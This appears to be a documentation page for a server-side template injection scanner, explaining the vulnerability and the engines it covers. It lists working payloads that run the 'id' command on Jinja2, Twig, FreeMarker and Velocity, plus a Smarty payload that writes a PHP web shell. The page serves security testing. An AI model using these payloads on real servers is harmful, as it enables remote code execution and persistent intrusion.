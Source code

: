 # SSTI Scanner - Context & Technical Overview

## What is Server-Side Template Injection (SSTI)?

Server-Side Template Injection (SSTI) is a vulnerability that occurs when user input is embedded in a template in an unsafe manner, allowing attackers to inject template directives and potentially execute arbitrary code on the server.

### Common Scenarios
- Web applications using template engines for dynamic content generation
- User input directly concatenated into template strings
- Insufficient input validation in template processing
- Configuration errors in template engine setup

## Template Engines Supported by Our Scanner

### Python-Based Engines ✅ FULLY IMPLEMENTED
- **Jinja2**: Most popular Python template engine, used by Flask
  - Syntax: `{{ expression }}`, `{% statement %}`
  - Common payloads: `{{7*7}}`, `{{config}}`, `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
  - ✅ **Status**: Complete with 50+ payloads including mathematical, object disclosure, and Flask globals
  
- **Django Templates**: Default template engine for Django framework
  - Syntax: `{{ variable }}`, `{% tag %}`
  - Limited expression capabilities: `{{7|add:"7"}}`, `{% load static %}`
  - ✅ **Status**: Complete with filter-based detection and debug information disclosure

### PHP-Based Engines ✅ FULLY IMPLEMENTED
- **Twig**: Modern PHP template engine
  - Syntax: `{{ expression }}`, `{% statement %}`
  - Common payloads: `{{7*7}}`, `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`
  - ✅ **Status**: Complete with 200+ payloads including mathematical, filter, and object access

- **Smarty**: Older but still widely used PHP template engine
  - Syntax: `{$variable}`, `{if condition}`
  - Common payloads: `{php}phpinfo(){/php}`, `{7*7}`, `{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",true)}`
  - ✅ **Status**: Complete with mathematical, server variables, and function execution

### Java-Based Engines ✅ FULLY IMPLEMENTED
- **FreeMarker**: Popular Java template engine
  - Syntax: `${expression}`, `<#directive>`
  - Common payloads: `${7*7}`, `${"freemarker.template.utility.Execute"?new()("id")}`
  - ✅ **Status**: Complete with Class.forName exploitation and reflection attacks

- **Velocity**: Apache Velocity template engine
  - Syntax: `$variable`, `#directive`
  - Common payloads: `$7*7`, `#set($ex=$class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("id"))`
  - ✅ **Status**: Complete with VTL syntax and VelocityTools access
